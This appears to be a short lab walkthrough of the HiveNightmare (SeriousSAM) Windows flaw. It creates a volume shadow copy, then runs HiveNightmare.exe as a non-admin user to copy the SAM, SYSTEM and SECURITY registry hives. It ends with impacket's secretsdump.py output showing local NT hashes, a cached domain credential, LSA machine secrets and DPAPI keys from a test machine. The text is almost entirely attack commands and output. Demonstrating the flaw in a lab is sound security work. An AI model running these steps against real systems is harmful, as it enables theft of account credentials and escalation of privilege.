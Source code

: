 To work this vulnerability, there should be volume shadow copy in the current system.

To test it we can create shadow copy with wmic

	PS C:\Windows\system32> WMIC.exe shadowcopy call create volume='c:\'
	Executing (Win32_ShadowCopy)->create()
	Method execution successful.
	Out Parameters:
	instance of __PARAMETERS
	{
			ReturnValue = 0;
			ShadowID = "{67A0E469-2D0E-4232-B8D5-644F914B973C}";
	};

List shadow copies

	PS C:\Windows\system32> wmic shadowcopy list brief
	ClientAccessible  ID                                      Imported  InstallDate                NoAutoRelease  NoWriters  Persistent  VolumeName
	TRUE              {67A0E469-2D0E-4232-B8D5-644F914B973C}  FALSE     20210911152644.464288+060  TRUE           TRUE       TRUE        \\?\Volume{7fd4e63d-ccfe-4422-9e9f-d100db8dcbe7}\


	PS C:\Windows\system32> vssadmin list shadows
	vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
	(C) Copyright 2001-2013 Microsoft Corp.

	Contents of shadow copy set ID: {c321fe2f-bd90-4df8-ae21-93fdbdf75117}
	   Contained 1 shadow copies at creation time: 11/09/2021 15:26:44
		  Shadow Copy ID: {67a0e469-2d0e-4232-b8d5-644f914b973c}
			 Original Volume: (C:)\\?\Volume{7fd4e63d-ccfe-4422-9e9f-d100db8dcbe7}\
			 Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
			 Originating Machine: pc-win10.valhalla.local
			 Service Machine: pc-win10.valhalla.local
			 Provider: 'Microsoft Software Shadow Copy provider 1.0'
			 Type: ClientAccessible
			 Attributes: Persistent, Client-accessible, No auto release, No writers, Differential
			 

We will read SAM SYSTEM and SECURİTY file from volume shadow copy 

	PS C:\Users\testuser\Desktop> .\HiveNightmare.exe
	HiveNightmare v0.6 - dump registry hives as non-admin users
	Specify maximum number of shadows to inspect with parameter if wanted, default is 15.
	Running...
	Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM
	Success: SAM hive from 2021-09-11 written out to current working directory as SAM-2021-09-11
	Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY
	Success: SECURITY hive from 2021-09-11 written out to current working directory as SECURITY-2021-09-11
	Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM
	Success: SYSTEM hive from 2021-09-11 written out to current working directory as SYSTEM-2021-09-11
	Assuming no errors above, you should be able to find hive dump files in current working directory.
	


We will read content of SAM

	┌──(kali㉿kali)-[~/Downloads]
	└─$ secretsdump.py LOCAL -sam SAM-2021-09-11 -system SYSTEM-2021-09-11 -security SECURITY-2021-09-11 
	Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

	[*] Target system bootKey: 0x1275b04c99aa7ea7e5ebcfe2c8925423
	[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
	Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e2920a939049177df3f1c08ae1ff62e4:::
	win10:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	nightmare:1005:aad3b435b51404eeaad3b435b51404ee:c718f548c75062ada93250db208d3178:::
	[*] Dumping cached domain logon information (domain/username:hash)
	VALHALLA.LOCAL/testuser:$DCC2$10240#testuser#dba152dcac68179962a74bace63c7336
	[*] Dumping LSA Secrets
	[*] $MACHINE.ACC 
	$MACHINE.ACC:plain_password_hex:a155e8b72d7c54f4c9abb78e414f678e5d966ccf159d9d5a1e942ce2fe47ca1d0e9b155cd28e5aa145837e0afd760311056904b877988a93426294aaf7fccdeb55a0cdbcb94c8885a8c0c9446e5f75d014b5b30329b99aa7f64c6c869d2ca2ee85c5e08421784e02df1a0d04357cedc2e83997a83c049c66c14339c82a4ca8235ee29980f19b9bb0fd566c4600462d5db386633d9b092a8890d1dcbfc09e1934f25904f6dceef6e551e88a87adc267de5be4a7be6841d9015dc350abc3ba937e8fe60f0c5ab26819e21b637268fce4bd48df3dec87aec499094a648317a63b4a1a7a3e6476da6899de13a3bb3c2b53d7
	$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:e1a3aa8e003bdca58ba8554c30561bae
	[*] DPAPI_SYSTEM 
	dpapi_machinekey:0x3f8d44197b6f26114a25cf48e48b28b5d84a9cac
	dpapi_userkey:0xb500dcefd1814773d57aa9448861a93cf726ee1f
	[*] NL$KM 
	 0000   7E D9 B8 E8 E9 A4 C5 16  50 D5 66 9A 3A CA 91 5D   ~.......P.f.:..]
	 0010   66 65 99 ED E0 C1 45 CA  44 BF 28 A7 37 A4 DC 35   fe....E.D.(.7..5
	 0020   4E B2 3D 76 00 70 E8 E0  A2 1A A0 5F 59 20 0A 1C   N.=v.p....._Y ..
	 0030   89 D3 DF F9 A9 38 AA 06  20 40 05 42 AE 60 8C CA   .....8.. @.B.`..
	NL$KM:7ed9b8e8e9a4c51650d5669a3aca915d666599ede0c145ca44bf28a737a4dc354eb23d760070e8e0a21aa05f59200a1c89d3dff9a938aa0620400542ae608cca
	[*] Cleaning up... 
